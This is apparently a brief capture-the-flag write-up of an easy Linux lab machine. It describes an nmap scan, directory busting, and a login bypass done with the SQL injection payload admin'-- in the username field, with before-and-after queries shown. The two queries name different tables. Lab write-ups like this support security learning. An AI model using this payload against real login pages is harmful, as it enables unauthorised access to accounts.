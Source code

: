# Intro OLE OLE
| Dificulty | OS | Start Date | End Date | Help? |
|---|---|---|---|---|
| Very Easy | Linux | 10/05/2022 | 10/05/2022 | Yes |


# Thought process
1. View running services with nmap.
2. Check if there were subdirectories with the dirbust.
3. Since it was a LogIn, see if SQL Injection can be done.


# Resolution
To Login a Web is just a SELECT to the database, but if in the username you write **admin'--** the rest of the query is commented out and does not look for a password. SQL Injection. 

> Normal Login Query
```sql
SELECT * FROM users WHERE name='admin' and password='123456aA'
```

> Query with SQL Injection
```sql
SELECT * FROM members WHERE username = 'admin'--' AND password = '123456aA'
```


# Links
[SQL Injection Cheat Sheet](https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/)


# Tags
#SQL #SQL_Injection
